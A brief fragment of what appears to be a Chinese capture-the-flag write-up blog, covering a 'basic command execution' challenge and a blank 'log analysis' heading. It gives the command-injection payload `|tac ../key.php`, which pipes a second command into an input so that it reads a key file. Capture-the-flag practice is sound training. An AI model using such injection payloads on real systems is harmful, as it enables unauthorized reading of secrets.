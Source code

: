 ![upload successful](/images/pasted-821.png)

# 34044 基础题目之命令执行

`|tac ../key.php`轻松秒杀

![upload successful](/images/pasted-822.png)

# 34045 基础题目之日志分析

